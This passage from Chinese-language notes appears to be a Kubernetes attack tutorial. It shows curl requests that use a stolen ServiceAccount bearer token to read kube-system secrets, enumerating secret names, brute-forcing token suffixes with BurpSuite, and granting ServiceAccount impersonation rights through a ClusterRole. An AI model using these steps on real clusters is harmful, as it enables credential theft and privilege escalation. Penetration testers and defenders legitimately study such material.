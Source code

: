 获取Service Account token后，携带Bearer header进行利用，获取指定服务用户的token

```plain
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/<secrets name>
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665470301631-9c5b353a-83bd-4cc9-9bfc-f825125b169b.png)

如何获取secret name呢？

```plain
#在Master节点上列举ServiceAccount
kubectl get sa --all-namespaces
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665470603550-e7ced8b3-9ee4-48bc-b589-3a536eaa6103.png)

```plain
#再列举secret
kubectl -n kube-system get secret
发现secret名称为ServiceAccount名称加"-token-xxxx"
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665470621768-5bc35f24-05b6-423b-bc23-627aa15ee215.png)

```plain
token后边的随机字符串，为“bcdfghjklmnpqrstvwxz2456789”这27个字符组成的
```

> [https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#183%EF%BC%9A#:~:text=bcdfghjklmnpqrstvwxz2456789](https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#183%EF%BC%9A#:~:text=bcdfghjklmnpqrstvwxz2456789)
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665470831355-403f4290-9f86-4e32-8363-ee7f2ce7cdc0.png)
>

利用时使用BurpSuite进行爆破即可

### <font style="color:rgb(17, 17, 17);">Impersonate</font>
![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665471614035-fb4806f3-50dc-4706-a443-2e29abcc7987.png)

```plain
#创建hx-sa-impersonate ServiceAccount
kubectl create sa hx-sa-impersonate -n kube-system

#创建角色
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-impersonate-role
rules:
- apiGroups: ["*"]
  resources: ["users","groups"]
  verbs: ["impersonate"]


#创建角色绑定
kind: ClusterRoleBinding
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-impersonate-rolebinding
subjects:
- kind: ServiceAccount
  name: hx-sa-impersonate
  namespace: kube-system
```